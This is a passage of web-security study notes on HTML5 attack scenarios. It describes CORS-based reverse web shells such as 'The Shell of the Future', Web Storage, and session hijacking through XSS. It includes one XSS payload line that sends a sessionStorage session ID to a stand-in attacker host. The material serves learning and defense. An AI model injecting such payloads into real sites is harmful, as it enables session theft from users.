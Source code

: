 > Also useful to guessing users private IP addresses.

### Remote Web Shell
If an XSS flaw is found in an app that supports CORS, an attacker can hijack the victim session, establishing a communication channel between the victims browser and the attcker.

#### The Shell of the Future
→ https://web.archive.org/web/20150223205517/http:/www.andlabs.org/tools/sotf/sotf.html

Its a Reverse Web Shell handler, it can be used to hijack sessions where JavaScript can be inject using XSS or through the browsers address bar. It makes use of HTML5 Cross Origin Requests and can bypass anti-session hijacking measures like Http-Only cookies and IP address-Session ID binding...


## Storage Attacks Scenarios
→ https://tools.ietf.org/html/rfc6265#section-6.1

### Web Storage
Its the first stable HTML5 specification that rules two well known mechanisms: Session Storage and Local Storage.

The implementations are similar to cookies and they are also known as key-value storage and DOM storage. Anything can be converted to a string or serialized and stored:
```js
window.(localStorage|sessionStorage).setItem('name','Joao');
#         DOM properties                       Key     Value
```

- http://www.w3.org/TR/webstorage/#security-storage

> The main issue with this technology is that developers are not aware of the security concerns presented in this specification, which clearly reports the security risks this feature may introduce.

### Session Hijacking
In the case of an XSS attack, Web Storage is a property of the Window object; therefore, its accessible via the DOM and, in a similar fashion to cookies, it can be compromised.

The exploitation is similar to the one used For cookies, but the only difference is in the API used to retrieve the values:
```js
<script> new Image.src = "http://hacker.site/C.php?cc=" +escape(sessionStorage.getItem('sessionID'));
</script>
```

- HTTP cookies have attributes, such as **HTTPOnly**, that were introduced to stop the session hijacking phenomena.
- This security measure, however, is completely missing For WebStorage technologies, making it completely inappropriate For storing both session identifiers and sensitive information

### Cross-Directory Attacks
Another important difference is that, unlike HTTP cookies, there is no feature to restrict the access by pathname, making the Web Storage content available in the whole origin. This may also introduce Cross-Directory attacks.
